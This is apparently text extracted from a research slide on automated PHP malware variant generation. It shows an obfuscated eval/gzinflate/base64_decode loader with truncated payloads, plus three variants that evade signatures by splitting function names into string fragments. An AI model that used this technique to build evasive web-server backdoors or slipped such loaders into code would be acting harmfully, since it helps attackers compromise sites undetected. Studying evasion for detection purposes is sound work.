

# 3. Automated Malware Variant Generation
Creating PHP malware variants is as simple as a string manipulation
10
11

12
$s_pass = '4b34f78fbd220513438011562320d47f’;
eval('$x=gzin'.'flate(base'.'64_de'.'code("7b1pe+O4lSj8OfM88x8U3XpT5chVXLV1LRlKFEVt1L5QnVw/3EmJm7hTufnvL0BSsmzLdl...+JDlu+vGCe/m0F3+e7PpQzuf97sMYN0MIA7DsAeZPX/5/"));');
eval('?>'.$x);
(b) Malware Variant 1
1
2

3
20
21

22
$s_pass = '4b34f78fbd220513438011562320d47f’;
$x=gzinflate(base64_decode("7b1pe+O4lSj8OfM88x8U3XpT5chVXLV1LRlKFEVt1L5QnVw/3EmJm7hTufnvL0BSsmzLdl...+JDlu+vGCe/m0F3+e7PpQzuf97sMYN0MIA7DsAeZPX/5/"));
eval('?>'.$x);
$s_pass = 'b4616d42a983401bcf344f9c18675777';
eval('$x=gzi'.'nflate(ba'.'se64_dec'.'ode("7b1pe+O4lSj8OfM88x8U3XpT5chVXLV1LRlKFEVt1L5QnVw/3EmJm7hTufnvL0BSsmzLdl...+JDlu+vGCe/m0F3+e7PpQzuf97sMYN0MIA7DsAeZPX/5/"));');
eval('?>'.$x);
(a) Original Malware
(c) Malware Variant 2
30
31

32
$s_pass = '62908bf72c21a3d8eaa23a55dec98e4b';
eval('$x=g'.'zin'.'fla'.'te(base6'.'4_dec'.'ode("7b1pe+O4lSj8OfM88x8U3XpT5chVXLV1LRlKFEVt1L5QnVw/3EmJm7hTufnvL0BSsmzLdl...+JDlu+vGCe/m0F3+e7PpQzuf97sMYN0MIA7DsAeZPX/5/"));');
eval('?>'.$x);
(d) Malware Variant 3
…
10